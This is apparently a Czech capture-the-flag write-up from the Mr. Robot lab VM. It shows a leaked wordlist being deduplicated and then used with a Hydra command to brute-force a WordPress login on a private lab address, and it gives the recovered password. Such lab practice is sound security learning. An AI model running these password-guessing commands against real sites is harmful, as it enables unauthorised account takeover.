

# Hydra

<aside>

Díky získanému wordlistu se v tento moment snažíme získat heslo k účtu

</aside>

## 🏷️ Název

- **Co řeším:** Použití nástroje Hydra k bruteforcu hesla
- **Cíl / očekávaný výsledek:** Nalezení hesla k účtu

## ✅ Postup krok za krokem

Protože náš získaný wordlist má přes 850 tisíc řádku se slovy, které se částečně i opakují, tak díky `sort` commandu tento wordlist vyfiltrujeme a budeme doufam, že dostaneme čistější výsledek

```bash
sort -u fsocity.div > fsocity_clean.div
```

Díky tomuto příkazu jsme z 850 000 řádku



šli na něco málo přes 11 tisíc


Následně jsme použili tento soubor jako náš bruteforce wordlist a využili jsme ho ve psaní commandu

```bash
hydra -l elliot -P mr.robot/fsocity_clean.div 10.38.1.110 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=incorrect" -V
```


Díky heslu `ER28-0652` jsme se mohli přihlásit do wordpressu

[Reverse shell](Reverse%20shell%2031e7b30bf2e680eb80c1c7fcb7f08d62.md)

## 💻 Příkazy / konfigurace

```bash
sort -u fsocity.div > fsocity_clean.div
```

```bash
hydra -l elliot -P mr.robot/fsocity_clean.div 10.38.1.110 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=incorrect" -V
```

## 📎 Screenshoty / odkaz


## ⚠️ Problémy & řešení

- **Problém:** Nástroj Hydra se nespustila
    - **Příčina / poznámka:** překlep v příkazu “log=^USER^:pwd=^PASS^”
    - **Fix / workaround:** místo “:” vložit “&”
- **Problém:** fsocity_clean.div neexistuje
    - **Příčina / poznámka:** špatné pojmenování souboru
    - **Fix / workaround:** mv “soubor” fsocity_clean.div